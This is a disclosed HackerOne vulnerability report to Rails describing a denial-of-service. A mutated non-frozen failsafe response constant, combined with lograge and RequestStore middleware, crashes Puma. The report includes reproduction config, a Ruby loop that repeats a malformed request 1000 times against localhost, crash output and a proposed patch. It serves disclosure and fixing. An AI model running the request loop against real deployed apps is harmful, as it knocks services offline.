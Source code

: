 # Possible DOS in app with crashing `exceptions_app`

## Report Details
- **Report ID**: 1300802
- **URL**: https://hackerone.com/reports/1300802
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-08-11T19:49:56.339Z
- **Disclosed**: 2023-06-28T00:42:04.824Z

## Reporter
- **Username**: ghiculescu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
Make a new Rails app, add the `lograge` gem.

```ruby
# config/application.rb
config.exceptions_app = self.routes
config.lograge.enabled = true
```

```ruby
# config/routes.rb

Rails.application.routes.draw do
  root to: "site#index"

  get 'errors/not_found'
  match "/404", to: "errors#not_found", via: :all
end
```

```ruby
# app/controllers/errors_controller.rb

class ErrorsController < ApplicationController
  def not_found
    render status: 404 # the view can do whatever, it doesn't matter
  end
end
```

Start the server as a production app (eg. it would start on Heroku): `RAILS_ENV=production RACK_ENV=production SECRET_KEY_BASE=foo RAILS_SERVE_STATIC_FILES=enabled RAILS_MAX_THREADS=2 RAILS_LOG_TO_STDOUT=enabled rails s`

Run this script:

```ruby
1000.times.each do |n|
  `curl -H "Accept: application/xml" -H "Content-Type: application/xml" -X GET http://localhost:3000///wp1/wp-includes/wlwmanifest.xml`
end
```

At some point (after 989 requests for me), Puma will crash:

```
2021-08-11 13:23:04 -0500 Rack app ("GET ///wp1/wp-includes/wlwmanifest.xml" - (127.0.0.1)): #<fatal: machine stack overflow in critical region>
```

Since it's a fatal Ruby error (which is unrecoverable) this leaves Puma in a zombie state, similar to https://github.com/puma/puma/issues/2552

The reason this crashes is:

- [ActionDispatch::ShowExceptions](https://github.com/rails/rails/blob/main/actionpack/lib/action_dispatch/middleware/show_exceptions.rb#L55) returns a non-frozen const.
- [lograge](https://github.com/roidrage/lograge/blob/master/lib/lograge/rails_ext/rack/logger.rb#L15) doesn't wrap this response in a `Rack::BodyProxy`. If you weren't using lograge, then Rails would do so [here](https://github.com/rails/rails/blob/main/railties/lib/rails/rack/logger.rb#L37). Before realising this could be a Rails security vulnerability, I made a PR for this here: https://github.com/roidrage/lograge/pull/333
- [RequestStore](https://github.com/steveklabnik/request_store/blob/master/lib/request_store/middleware.rb#L21) mutates the response body. This causes the const in Rails to get mutated, it now is a `Rack::BodyProxy` with a reference to itself. Every time it gets returned, it gets mutated again and the object gets one layer bigger.  Before realising this could be a Rails security vulnerability, I made a PR for the mutation here: https://github.com/steveklabnik/request_store/pull/78
- Eventually, we have an extremely large `Rack::BodyProxy` that references itself hundreds of times in memory. This is easy to make crash. In our case, [Rack::Sendfile](https://github.com/rack/rack/blob/master/lib/rack/sendfile.rb#L113) causes a `SystemStackError`, I think this happens because of how `BodyProxy` handles `respond_to_missing?`.

I don't think this issue is unique to `lograge` + `RequestStore`. It can happen anywhere you have:

- A middleware that mutates a response, and
- `FAILSAFE_RESPONSE` (or another non-frozen const) being passed to that middleware, and
- Something higher in the middleware stack that calls a missing method on the response.

I was about to make a PR to Rails with this patch when it dawned on me that this could be a security issue:

```diff
diff --git a/actionpack/lib/action_dispatch/middleware/show_exceptions.rb b/actionpack/lib/action_dispatch/middleware/show_exceptions.rb
index 0a7e895e59..d207765acc 100644
--- a/actionpack/lib/action_dispatch/middleware/show_exceptions.rb
+++ b/actionpack/lib/action_dispatch/middleware/show_exceptions.rb
@@ -14,13 +14,14 @@ module ActionDispatch
   # If the application returns a "X-Cascade" pass response, this middleware
   # will send an empty response as result with the correct status code.
   # If any exception happens inside the exceptions app, this middleware
-  # catches the exceptions and returns a FAILSAFE_RESPONSE.
+  # catches the exceptions and returns a failsafe response.
   class ShowExceptions
     FAILSAFE_RESPONSE = [500, { "Content-Type" => "text/plain" },
       ["500 Internal Server Error\n" \
        "If you are the administrator of this website, then please read this web " \
        "application's log file and/or the web server's log file to find out what " \
        "went wrong."]]
+    deprecate_constant :FAILSAFE_RESPONSE

     def initialize(app, exceptions_app)
       @app = app
@@ -52,7 +53,15 @@ def render_exception(request, exception)
         response[1]["X-Cascade"] == "pass" ? pass_response(status) : response
       rescue Exception => failsafe_error
         $stderr.puts "Error during failsafe response: #{failsafe_error}\n  #{failsafe_error.backtrace * "\n  "}"
-        FAILSAFE_RESPONSE
+        failsafe_response
+      end
+
+      def failsafe_response
+        [500, { "Content-Type" => "text/plain" },
+          ["500 Internal Server Error\n" \
+         "If you are the administrator of this website, then please read this web " \
+         "application's log file and/or the web server's log file to find out what " \
+         "went wrong."]]
       end

       def pass_response(status)
```

## Impact

If you find an app that's configured as above you could bring it offline by making the same bad request enough times.

## Attachments
No attachments

